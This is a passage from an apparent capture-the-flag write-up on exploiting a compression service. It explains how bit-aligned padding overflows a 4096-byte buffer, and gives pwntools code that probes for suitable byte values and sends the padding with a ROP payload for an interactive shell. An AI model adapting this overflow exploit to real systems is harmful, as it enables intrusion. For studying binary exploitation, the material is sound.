 The output buffer is 4096, and right after, we find the stack canary, the base pointer, and the return address. This means that our padding of 9-bits should fit perfectly into the 4096 bytes, or our ROP chain will be misaligned on the bit-level. And 4096 / 9 = 455.111111, so we need to find a combination of 8 and 9 bit values that perfectly aligns to 4096. And it turns out that the buffer size is 4096 * 8 = 32768 bits, and 3640 * 9 + 8 = 32768.

To find a 9 and 8-bit value, we brute force our way through all 0-255 values:

```python
bit9 = None
bit8 = None

# Let's find new 9 and 8 bit values for our padding
# If a byte when compressed is 9 bits, then 8 bytes of that byte will be 8 * 9 / 8 = 9 bytes compressed
# If a byte when compressed is 8 bits, then 8 bytes of that byte will be 8 bytes compressed
for i in range(0x100):
    log.debug(f"Trying debug {i}")
    io.sendlineafter(b"Please select an option: ", b"1") # Compress
    io.sendlineafter(b"Please enter the input string (hex format): ", bytes([i]*8).hex().encode()) # Compress 8 bytes of the same value
    res = io.recvuntil(b"1. Compress")
    if b"[Error]" in res:
        continue

    compressed_size = int(res.decode().split("Compressed size         : ")[1].split(" bytes")[0])
    if compressed_size == 9 and bit9 is None:
        bit9 = i
    elif compressed_size == 8 and bit8 is None:
        bit8 = i

    if bit9 is not None and bit8 is not None:
        break
else:
    log.warn("Failed to find suitable bytes. Re-run the exploit")
    return False
```

Finally, we combine our padding with the ROP payload and send it to the server:

```python
# Buffer size is 4096 * 8 = 32768 bits
# Padding compressed = 3640 * 9 + 8 = 32768 bits
# Padding decompressed = 3640 * 8 + 8 = 29128 bits
padding = bytes([bit9])*3640 + bytes([bit8])

io.sendlineafter(b"Please select an option: ", b"1")
io.sendlineafter(b"Please enter the input string (hex format): ", padding.hex().encode() + decompressed_payload.encode())

io.recvuntil(b"==============================================")
io.recvline()

io.interactive()
```
